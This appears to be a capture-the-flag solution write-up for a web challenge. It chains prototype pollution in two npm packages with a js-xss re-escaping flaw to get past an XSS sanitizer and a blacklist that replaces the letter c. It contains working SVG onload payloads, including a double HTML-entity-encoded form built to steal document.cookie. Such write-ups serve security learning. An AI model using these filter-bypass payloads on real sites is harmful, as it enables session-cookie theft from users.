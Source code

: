 # Solution
The intended solution involves chaining together the following three vulnerabilies from two different npm packages, roughly in this order:
1. `merge-objects` prototype pollution: https://npmjs.com/advisories/716
2. `xss` prototype pollution to XSS: https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/js-xss.md
3. `xss` failing to re-escape whitelisted attribute values: https://github.com/leizongmin/js-xss/issues/180

When used in conjunction, these vulnerabilies allow you to construct a payload that bypasses the XSS filter as well as the blacklist filter.
The purpose of the blacklist filter (`sanitized.replace(/C/g, '\u0421').replace(/c/g, '\u0441')`) is to make it so that if players want to access the `document.cookie` value, they have to take advantage of the fact that the XSS filter does not re-escape attribute values it previously un-escaped.

As an example, the payload `<svg onload="alert(document.cookie)">` 
would easily be caught by the blacklist filter because it contains multiple instances of `c`. HTML encoding the JavaScript portion once would give you
```html
<svg onload=&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;>
```
which would still be caught as it would revert to `<svg onload="alert(document.cookie)">` once it is un-escaped by the XSS filter.

HTML encoding the JavaScript portion of the payload twice works because 
```html
<svg onload=&#38;&#35;&#57;&#55;&#59;&#38;&#35;&#49;&#48;&#56;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#49;&#49;&#52;&#59;&#38;&#35;&#49;&#49;&#54;&#59;&#38;&#35;&#52;&#48;&#59;&#38;&#35;&#49;&#48;&#48;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#57;&#57;&#59;&#38;&#35;&#49;&#49;&#55;&#59;&#38;&#35;&#49;&#48;&#57;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#49;&#49;&#48;&#59;&#38;&#35;&#49;&#49;&#54;&#59;&#38;&#35;&#52;&#54;&#59;&#38;&#35;&#57;&#57;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#49;&#49;&#49;&#59;&#38;&#35;&#49;&#48;&#55;&#59;&#38;&#35;&#49;&#48;&#53;&#59;&#38;&#35;&#49;&#48;&#49;&#59;&#38;&#35;&#52;&#49;&#59;>
```
becomes 
```html
<svg onload=&#97;&#108;&#101;&#114;&#116;&#40;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;>
```
after passing through the XSS filter. This payload will now make it past the blacklist filter and be served as a webpage to the hero, which will cause it to be un-escaped an additional time and interpreted as
`<svg onload="alert(document.cookie)">` as intended. Please note that the actual payload will need to send the cookie to another server controlled by the attacker and the above payload is just for illustrative purposes.

The blacklist filter also forces players to use a somewhat more rare XSS payload that doesn't directly contain a `c`, as a lot of the most common ones do (e.g. <code><s<b>c</b>ript sr<b>c</b>=...</code>, <code><img sr<b>c</b>=...</code>, <code><iframe sr<b>c</b>=...</code>, etc.).

Lastly, here is a list of XSS payloads that I used to find one that can be triggered without using a `c`: https://gist.github.com/phra/76518994c908ac836ec5a393f188f89a
